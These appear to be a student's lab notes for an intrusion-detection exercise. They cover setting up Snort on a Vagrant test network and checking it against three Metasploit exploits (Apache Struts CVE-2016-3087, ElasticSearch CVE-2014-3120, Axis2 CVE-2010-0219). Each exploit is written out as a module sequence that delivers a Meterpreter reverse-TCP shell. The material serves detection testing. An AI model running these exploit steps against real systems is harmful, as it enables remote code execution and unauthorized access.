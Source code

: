 cybersecurity base project 2 notes

<REMOTEHOST> = 192.168.0.3
<LOCALHOST> = 192.168.0.4
<SNORTINTERFACE> = 1

1. Vagrant destroy
2. Vagrant up
3. Install Snort 2.9.9.0 & snortrules-snapshot-2976
4. Install WinPCap 4.1.1
5. Snort conf changes
6. Test with C:\Snort\et\snort.exe -c C:\Snort\etc\snort.conf -i 1 -T 

snort test: C:\Snort\bin\snort -c c:\Snort\etc\snort.conf -T -i <SNORTINTERFACE>
snort IDS: C:\Snort\bin\snort -d -l C:\snort\log -i 1 -c c:\Snort\etc\snort.conf -A console
C:\Snort\bin\snort -de -l C:\snort\log -h 192.168.0.0/24 -i 1 -c c:\Snort\etc\snort.conf -A console
C:\Users\vagrant>C:\Snort\bin\snort -d -l C:\snort\log -i 1 -c c:\Snort\etc\snort.conf -A console

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo

-----------------------------------------------
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

	

